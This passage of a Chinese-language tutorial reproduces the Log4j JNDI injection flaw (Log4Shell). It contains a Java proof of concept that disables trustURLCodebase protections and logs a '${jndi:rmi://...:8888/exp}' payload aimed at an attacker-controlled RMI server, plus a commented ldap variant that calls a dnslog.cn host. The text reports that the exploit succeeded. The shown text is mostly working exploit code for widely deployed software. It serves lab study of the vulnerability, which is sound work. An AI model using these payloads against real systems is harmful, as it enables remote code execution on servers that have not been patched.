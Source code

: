 

#### 4.5 执行 RMIServer，创建 RMI 服务。



### 4.构建 EXP 触发目标服务器进行日志记录触发 JNDI 解析

Log4Test.java

```java
package cn.xps.www;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Test {
    private static final Logger logger = LogManager.getLogger(Log4Test.class);

    public static void main(String[] args) {
        // 避免因为Java版本过高而无法触发此漏洞
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");

        String username = "${jndi:rmi://192.168.43.161:8888/exp}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
//        String username = "${jndi:ldap://4fduwz.dnslog.cn}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        logger.error(username + "is login on ${java:os}");
    }

}

```



成功执行：

![](http://image.xpshuai.cn/wiershark_ok)



























